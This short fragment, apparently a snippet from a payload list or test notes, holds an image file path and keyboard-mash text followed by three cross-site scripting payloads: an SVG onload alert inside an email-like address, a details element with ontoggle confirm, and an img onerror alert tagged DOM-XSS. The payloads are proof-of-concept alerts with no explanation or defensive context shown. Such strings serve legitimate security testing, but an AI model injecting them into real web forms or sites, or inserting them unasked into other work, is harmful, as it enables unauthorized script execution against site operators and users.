 cfgvhbjnkml,
 “><svg/onload=alert(document.domain)>”@x.y
 <details open ontoggle=confirm()>
 #'><img src=x onerror=alert(/DOM-XSS/)>
